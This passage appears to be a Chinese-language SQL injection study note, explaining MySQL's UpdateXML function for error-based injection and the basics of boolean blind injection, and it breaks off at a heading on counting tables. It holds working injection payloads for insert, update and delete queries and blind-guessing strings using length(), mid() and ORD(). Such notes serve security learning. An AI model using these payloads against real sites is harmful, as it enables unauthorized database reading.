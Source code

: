   其中的concat()函数是将其参数连成一个字符串，因此不会符合xpath_expr的格式，从而出现格式错误，爆出

  ![image-20220727193832420](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727193832420.png)

- `UpdateXML(xml_document, xpath_expr, new_xml)`

  xml_document：String格式，为XML文档对象的名称

  xpath_expr：Xpath格式的字符串

  new_xml：String格式，替换查找到的符合条件的数据

  作用：改变文档中符合条件的节点的值，即改变XML_document中符合XPATH_string的值

  此函数用来更新选定XML片段的内容，将XML标记的给定片段的单个部分替换为新的XML片段 new_xml，然后返回更改的XML。xml_document替换的部分 与xpath_expr用户提供的XPath表达式匹配。

  如果未xpath_expr找到表达式匹配，或者找到多个匹配项，则该函数返回原始xml_document的XML片段。所有三个参数都应该是字符串。

  和上面的extractvalue函数一样，当Xpath路径语法错误时，就会报错，报错内容含有错误的路径内容：

  ![1551929714141](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/1551929714141.png)

  ```mysql
  // insert
  username=x' or updatexml(1,concat(0x7e,(version())),0) or '
  
  // update
  add=hubeNicky' or  updatexml(1,concat(0x7e,(version())),0) or '
  
  // delete
  ?id=56+or+updatexml+(1,concat(0x7e,database()),0)
  ```

  ![image-20220727195708498](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727195708498.png)

  ![image-20220727195718450](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727195718450.png)

#### 基于布尔的SQL盲注（其次）

逻辑判断，regexp正则表达式，like，ascii，left，ord返回字符串第一个字符的ascii码，mid取字符串子串。

布尔型盲注是指注入页面中没有直接显示数据内容，但会显示输出的结果对还是错，查询的数据有还是没有。

- **猜解数据库长度**

  ```m'y
  ' or length(database()) > 8 --+    # 符合条件返回正确，反之返回错误
  ```

- **猜解数据库名**

  ```
  'or mid(database(),1,1)='z' --+
  'or ORD(mid(database(),1,1)) > 100 --+ :  # 因为需要验证的字符太多，所以可以转化为ascii码验证
  ```

- **猜解表的总数**
